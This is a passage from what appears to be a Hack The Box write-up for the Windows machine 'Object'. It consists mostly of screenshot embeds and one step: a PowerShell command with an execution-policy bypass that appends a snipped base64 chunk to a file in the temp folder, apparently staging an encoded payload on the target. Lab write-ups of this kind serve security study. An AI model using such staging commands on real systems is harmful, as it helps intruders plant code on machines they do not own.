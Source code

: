 ![light mode only](/assets/img/posts/htb/machines/windows/hard/object/object_28.png){: .light .w-100 .shadow .rounded-10 w='1212' h='668' }
![dark mode only](/assets/img/posts/htb/machines/windows/hard/object/object_28.png){: .dark .w-100 .shadow .rounded-10 w='1212' h='668' }







Our fifth command will be:\
`cmd.exe /c powershell -NoProfile -ExecutionPolicy Bypass -Command "Add-Content -Path %TEMP%\resource.temp\efspot.b64 -Value YyBzaG9yd<SNIP>ICB9Cgp9Cg== -Encoding ASCII"`

![light mode only](/assets/img/posts/htb/machines/windows/hard/object/object_29.png){: .light .w-100 .shadow .rounded-10 w='1212' h='668' }